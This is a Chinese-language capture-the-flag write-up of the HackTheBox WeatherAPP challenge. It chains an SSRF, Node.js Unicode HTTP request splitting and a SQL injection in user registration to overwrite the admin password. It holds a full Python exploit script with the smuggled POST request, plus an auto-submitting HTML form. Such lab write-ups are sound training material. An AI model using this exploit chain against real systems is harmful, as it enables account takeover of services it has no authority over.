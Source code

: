 ```yaml
---
title: HackTheBox WeatherAPP WriteUP
date: 2023-08-22 18:08:00
tags:
- HackTheBox
- Web
- SQL注入
- SSRF
- 漏洞利用
- HTTP Request拆分漏洞
---
```



## 题目

> A pit of eternal darkness, a mindless journey of abeyance, this feels like a never-ending dream. I think I'm hallucinating with the memories of my past life, it's a reflection of how thought I would have turned out if I had tried enough. A weatherman, I said! Someone my community would look up to, someone who is to be respected. I guess this is my way of telling you that I've been waiting for someone to come and save me. This weather application is notorious for trapping the souls of ambitious weathermen like me. Please defeat the evil bruxa that's operating this website and set me free! 🧙‍♀️


![WeatherAPP](image.png)

![Web](image-1.png)

## 思路

首先看代码，代码给我们的线索有：

1. Flag在`/app/flag`，需要以admin账户登录系统才能获得；

![Flag File](image-2.png)

2. admin账号的密码是16进制32Byte大小的随机字符串，暴力破解不用考虑了；

![32Pass](image-3.png)

3. 注册账户功能存在SQL注入漏洞；

![SQL Injection](image-4.png)

4. 注册账户功能限制源IP，仅限本地（127.0.0.1）使用；

![Register](image-6.png)

5. API`/api/weather`存在SSRF漏洞；

![SSRF](image-5.png)

至此，思路基本清晰，即：**利用SSRF漏洞，让服务器提交注册用户请求，覆盖掉admin账号的密码，从而取得Flag。**

唯一一个尚未解决的问题是，`/api/weather`接口只能提交GET请求，而注册用户是强制读取`Request Body`中的数据的。

那么，我们还需要寻找其他线索。

`package.json`中显示，NodeJS版本为8.12.0

![NodeJS](image-7.png)

当前版本的NodeJS存在HTTP Request拆分漏洞，详见：[Node.js disclosed on HackerOne: Http request splitting](https://hackerone.com/reports/409943)

利用此漏洞，我们可以顺利通过服务器提交POST表单了。

完整思路：

1. 利用SSRF伪造服务器请求；
2. 利用NodeJS组件漏洞提交POST表单；
3. 利用注册功能的SQL注入漏洞覆盖掉admin账户的密码；
4. 登录admin账户，获得Flag。

## 解题

利用Python构造并提交POC：

``` python
# poc.py

import requests


payload = '''127.0.0.1/ HTTP/1.1
Host: http://127.0.0.1

POST /register HTTP/1.1
Host: http://127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 88
Connection: close

username=admin&password=1234') ON CONFLICT(username) DO UPDATE SET password = 'admin';--

GET / HTTP/1.1
Host: http://127.0.0.1
test:'''.replace("\n","\r\n")

payload = payload.replace('\r\n', '\u010d\u010a') \
    .replace('+', '\u012b') \
    .replace(' ', '\u0120') \
    .replace('"', '\u0122') \
    .replace("'", '\u0a27') \
    .replace('[', '\u015b') \
    .replace(']', '\u015d') \
    .replace('`', '\u0127') \
    .replace('"', '\u0122') \
    .replace("'", '\u0a27') \
    .replace('[', '\u015b') \
    .replace(']', '\u015d')

print(payload)

burp0_url = "http://167.172.61.89:32702/api/weather"
burp0_headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36", "Accept": "*/*", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Referer": "http://167.172.61.89:32702/", "Content-Type": "application/json", "Origin": "http://167.172.61.89:32702", "DNT": "1", "Connection": "close", "sec-ch-ua-platform": "\"Windows\"", "sec-ch-ua": "\"Google Chrome\";v=\"113\", \"Chromium\";v=\"113\", \"Not=A?Brand\";v=\"24\"", "sec-ch-ua-mobile": "?0"}
burp0_json={"city": "Tokyo", "country": "JP", "endpoint": payload}
resp = requests.post(burp0_url, headers=burp0_headers, json=burp0_json)

print(resp.text)
```

登录admin，获得flag：

![Bingo](image-8.png)

## 后记

最早解题的时候是没有注意到NodeJS的版本的，一直卡在无法提交POST表单这一步，最后还是看了其他大佬的WriteUP。想了一些很抽象的办法，例如在服务器上设置一个HTML文件，访问到这个文件的时候自动提交Form表单。这个思路能成功的前提是，服务器会解析HTML和JavaScript。抱着试一试的心态尝试了一番，最后理所当然的失败了。这里将用到的HTML代码记录下来，权当消遣与纪念(代码是ChatGPT写的)。

``` HTML
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>自动提交表单</title>
    <script type="text/javascript">
        window.onload = function() {
            document.forms["autoSubmitForm"].submit();
        }
    </script>
</head>
<body>
    <form id="autoSubmitForm" action="http://127.0.0.1/register" method="post">
        <input type="hidden" name="username" value="admin">
        <input type="hidden" name="password" value="admin">
    </form>
</body>
</html>
```

> PS: 今天七夕，在护网现场爆肝三篇WriteUP，感谢女朋友的鼓舞BUFF加持！

## 参考资料

- [NodeJS 中 Unicode 字符损坏导致的 HTTP 拆分攻击](https://www.anquanke.com/post/id/241429)
- [HTB之Weather App](https://blog.csdn.net/f_cccc/article/details/1164068)